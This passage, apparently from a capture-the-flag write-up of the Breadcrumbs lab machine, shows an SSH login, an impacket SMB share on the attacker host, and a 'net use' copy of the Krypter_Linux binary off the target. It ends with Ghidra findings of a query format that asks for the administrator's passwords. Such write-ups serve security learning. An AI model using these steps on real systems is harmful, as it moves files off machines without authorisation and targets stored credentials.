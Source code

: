 ## Credentials manager

Logging in via SSH with our new acount we can see a custom looking binary in the `C:\development` folder.

```php
$ ssh development@10.129.175.242
development@10.129.175.242's password:
Microsoft Windows [Version 10.0.19041.746]
(c) 2020 Microsoft Corporation. All rights reserved.

development@BREADCRUMBS C:\Users\development>
```

```php
PS C:\Development> dir


    Directory: C:\Development


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        11/29/2020   3:11 AM          18312 Krypter_Linux

```php

To inspect it better we copy it over to our local machine setting up a smbserver with impacket and mounting the share on the windows machine.

```
$sudo smbserver.py -smb2support files .
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Now we can simply copy it over to our machine.

```php
PS C:\Development> net use y: \\10.10.14.11\files
The command completed successfully.

PS C:\Development> cp .\Krypter_Linux y:
```

Looking at the binary in ghidra we see port `1234` mentioned and that a valid query is structured like `method=select&username=administrator&table=passwords`.
